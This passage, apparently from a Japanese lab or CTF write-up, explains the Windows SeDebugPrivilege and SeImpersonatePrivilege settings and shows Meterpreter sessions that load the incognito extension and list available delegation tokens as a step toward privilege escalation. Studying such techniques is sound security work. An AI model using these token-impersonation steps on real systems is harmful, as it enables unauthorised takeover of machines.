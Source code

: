 Enabled/Disabled に関しては以下の記事が参考になりました。
[whoami /priv の状態の「無効」「有効」 とは何か](http://tooljp.com/qa/whoami-priv-state-enable-disable-A569.html)

SeDebugPrivilege, SeImpersonatePrivilege の 2 つが有効になっています。

SeDebugPrivilege
> この特権により、TerminateProcess()、CreateRemoteThread() の呼び出し、およびその他の呼び出し先プロセスの危険性のある Win32 API の呼び出しなど、呼び出し元プロセスから呼び出し先プロセスへのすべてのアクセスが可能になります。

SeImpersonatePrivilege
> "認証後にクライアントを偽装" ユーザー権利をユーザーに割り当てると、そのユーザーに代わって動作するプログラムがクライアントを偽装することを許可することになります。


[SeDebugPrivilege を使用して任意のプロセスへのハンドルを取得する方法](https://support.microsoft.com/ja-jp/help/131065/how-to-obtain-a-handle-to-any-process-with-sedebugprivilege)
["認証後にクライアントを偽装" および "グローバル オブジェクトの作成" のセキュリティ設定の概要](https://support.microsoft.com/ja-jp/help/821546/overview-of-the-impersonate-a-client-after-authentication-and-the-crea)
[Abusing Token Privileges For LPE](https://www.exploit-db.com/papers/42556)

## privilege escalation
incognito を load します。

incognito に関しては offencive security の以下の記事が参考になるかもです。
[FUN WITH INCOGNITO](https://www.offensive-security.com/metasploit-unleashed/fun-incognito/)

また、以下の記事の Token Impersonation の章もわかりやすかったです。
[Attack Simulation: from No Access to Domain Admin](https://spreadsecurity.github.io/2016/11/17/attack-simulation-from-no-access-to-domain-admin.html)

```
meterpreter > load incognito
Loading extension incognito...Success.
```
`list_tokens`コマンドを使用し、使用できる token を確認します。

```
meterpreter > list_tokens
Usage: list_tokens <list_order_option>

Lists all accessible tokens and their privilege level

OPTIONS:

    -g        List tokens by unique groupname
    -u        List tokens by unique username

```

```
meterpreter > list_tokens -g
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\IIS_IUSRS
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
```